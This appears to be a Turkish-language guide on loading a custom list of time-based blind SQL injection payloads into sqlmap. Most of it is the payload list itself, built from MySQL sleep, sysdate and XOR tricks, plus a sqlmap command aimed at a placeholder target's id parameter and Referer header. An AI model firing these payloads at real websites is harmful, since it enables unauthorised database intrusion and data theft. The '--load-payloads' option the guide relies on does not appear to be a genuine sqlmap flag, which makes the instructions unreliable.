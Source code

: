 # sqlmap

 SQLmap için özel bir payload dosyası oluşturmak ve bu dosyayı kullanarak SQLmap'te kişiselleştirilmiş enjeksiyon testleri yapmak mümkündür. Verdiğiniz payloadları bu yönteme entegre edeceğiz.

### Adım 1: Özel Payload Dosyası Oluşturma

Öncelikle, tüm payloadlarınızı içeren bir dosya oluşturmalısınız. Bu dosyayı `custom_payloads.txt` olarak adlandırabiliriz. Dosya içeriğini aşağıdaki gibi düzenleyin:

#### `custom_payloads.txt`

```sql
0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z
0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z
0'XOR(if(now()=sysdate(),sleep(2),0))XOR'Z
0'XOR(if(now()=sysdate(),sleep(1),0))XOR'Z
if(now()=sysdate(),sleep(3),0)/*'XOR(if(now()=sysdate(),sleep(3),0))OR'"XOR(if(now()=sysdate(),sleep(3),0))OR"*/
if(now()=sysdate(),sleep(0),0)/*'XOR(if(now()=sysdate(),sleep(0),0))OR'"XOR(if(now()=sysdate(),sleep(0),0))OR"*/
if(now()=sysdate(),sleep(9),0)/*'XOR(if(now()=sysdate(),sleep(9),0))OR'"XOR(if(now()=sysdate(),sleep(9),0))OR"*/
if(now()=sysdate(),sleep(6),0)/*'XOR(if(now()=sysdate(),sleep(6),0))OR'"XOR(if(now()=sysdate(),sleep(6),0))OR"*/
if(now()=sysdate(),sleep(10),0)/*'XOR(if(now()=sysdate(),sleep(10),0))OR'"XOR(if(now()=sysdate(),sleep(10),0))OR"*/
if(now()=sysdate(),sleep(5),0)/*'XOR(if(now()=sysdate(),sleep(5),0))OR'"XOR(if(now()=sysdate(),sleep(5),0))OR"*/
Hurlburt'XOR(if(now()=sysdate(),sleep(5*5),0))OR'
'XOR(if(now()=sysdate(),sleep(5*5),0))OR' -- -useragent
'+(select*from(select(sleep(7*7)))a)+'
'+(select*from(select(sleep(20)))a)+'
'+(select*from(select(sleep(20+10)))a)+'
XOR(if((select/**/666/**/where/**/[RANDNUM]=[RANDNUM1]),444,0))XOR
XOR(if((select/**/666/**/where/**/[RANDNUM]=[RANDNUM]),444,0))XOR
XOR(if((select/**/666/**/where/**/[INFERENCE]),444,0))XOR
```

### Adım 2: SQLmap Komutunu Kullanın

Özel payload dosyasını kullanarak SQLmap'te test yapmak için aşağıdaki komutu kullanabilirsiniz:

```bash
sqlmap -u "http://hedefsite.com/vulnerable_page.php?id=1" --dbms=mysql --technique=T --load-payloads=custom_payloads.txt --time-sec=10 --headers="Referer: http://www.google.com/search?hl=en&q=*"
```

**Komut Açıklamaları:**

- **--load-payloads=custom_payloads.txt**: Özel payload dosyasını belirtir.
- **--time-sec=10**: SQLmap'in bekleme süresini 10 saniye olarak ayarlar.
- **--headers**: Enjekte edilecek başlıkları belirtir (örneğin, `Referer`).

### Adım 3: Test Sonuçlarını Kontrol Etme

SQLmap çalıştırıldığında, özel payloadları kullanarak hedefteki SQL enjeksiyon güvenlik açıklarını test edecektir. Sonuçları gözlemleyerek hangi payloadların başarılı olduğunu ve hedefin yanıt süresine göre hangilerinin en etkili olduğunu değerlendirebilirsiniz.

### Sonuç

Bu yöntemle, SQLmap'te kendi belirttiğiniz özel payloadları kullanarak kişiselleştirilmiş SQL enjeksiyon testleri yapabilirsiniz. SQLmap'in mevcut seçeneklerini ve parametrelerini kullanarak test sürecinizi daha da optimize edebilirsiniz.
